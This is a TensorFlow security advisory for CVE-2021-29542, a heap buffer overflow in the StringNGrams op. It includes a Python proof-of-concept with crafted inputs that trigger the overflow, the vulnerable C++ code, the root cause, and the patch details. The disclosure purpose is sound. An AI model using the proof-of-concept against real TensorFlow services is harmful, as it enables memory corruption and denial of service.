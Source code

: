## TFSA-2021-029: Heap buffer overflow in `StringNGrams`

### CVE Number
CVE-2021-29542

### Impact
An attacker can cause a heap buffer overflow by passing crafted inputs to
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

separator = b'\x02\x00'
ngram_widths = [7, 6, 11]
left_pad = b'\x7f\x7f\x7f\x7f\x7f'
right_pad = b'\x7f\x7f\x25\x5d\x53\x74'
pad_width = 50
preserve_short_sequences = True

l = ['', '', '', '', '', '', '', '', '', '', '']

data = tf.constant(l, shape=[11], dtype=tf.string)

l2 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 3]
data_splits = tf.constant(l2, shape=[116], dtype=tf.int64)

out = tf.raw_ops.StringNGrams(data=data,
    data_splits=data_splits, separator=separator,
    ngram_widths=ngram_widths, left_pad=left_pad,
    right_pad=right_pad, pad_width=pad_width,
    preserve_short_sequences=preserve_short_sequences)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L171-L185)
fails to consider corner cases where input would be split in such a way that the
generated tokens should only contain padding elements:

```cc
for (int ngram_index = 0; ngram_index < num_ngrams; ++ngram_index) {
  int pad_width = get_pad_width(ngram_width);
  int left_padding = std::max(0, pad_width - ngram_index);
  int right_padding = std::max(0, pad_width - (num_ngrams - (ngram_index + 1)));
  int num_tokens = ngram_width - (left_padding + right_padding);
  int data_start_index = left_padding > 0 ? 0 : ngram_index - pad_width;
  ...
  tstring* ngram = &output[ngram_index];
  ngram->reserve(ngram_size);
  for (int n = 0; n < left_padding; ++n) {
    ngram->append(left_pad_);
    ngram->append(separator_);
  }
  for (int n = 0; n < num_tokens - 1; ++n) {
    ngram->append(data[data_start_index + n]);
    ngram->append(separator_);
  }
  ngram->append(data[data_start_index + num_tokens - 1]); // <<<
  for (int n = 0; n < right_padding; ++n) {
    ngram->append(separator_);
    ngram->append(right_pad_);
  }
  ...
}
```

If input is such that `num_tokens` is 0, then, for `data_start_index=0` (when
left padding is present), the marked line would result in reading `data[-1]`.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/tensorflow/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
